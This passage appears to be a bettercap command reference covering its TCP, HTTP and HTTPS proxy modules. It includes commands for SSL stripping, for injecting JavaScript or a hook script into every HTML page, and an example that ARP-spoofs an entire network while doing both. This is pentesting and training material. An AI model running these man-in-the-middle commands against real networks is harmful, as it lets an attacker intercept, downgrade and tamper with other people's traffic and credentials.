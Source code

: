 ## <mark style="color:red;">TCP Proxy</mark>

```
tcp.proxy on/off
```

## <mark style="color:red;">HTTP Proxy</mark>

```
http.proxy on/off
```

#### enable SSL strip attack

```
set http.proxy.sslstrip true/false
```

#### URL, path or js code to inject into every HTML page

```
http.proxy.injectjs
set http.proxy.script /root/Desktop/Hook.js

# example:
# Will ARP spoof the whole network,
# enable sslstrip and inject a 
# “Hello World” javascript alert 
# to every HTML page being visited:

set http.proxy.injectjs alert("Hello World")
set http.proxy.sslstrip true

http.proxy on
arp.spoof on
```

## <mark style="color:red;">HTTPS Proxy</mark>

A full featured HTTPS transparent proxy that can be scripted using javascript modules. If used together with a spoofer, all HTTPS traffic will be redirected to it and it will automatically handle port redirections as needed.

{% hint style="info" %}
When a new TLS connection is being proxied, bettercap will fetch the original certificate from the target host and resign on the fly the full chain using its own CA.
{% endhint %}

```
https.proxy on/off
```

#### enable SSL strip attack
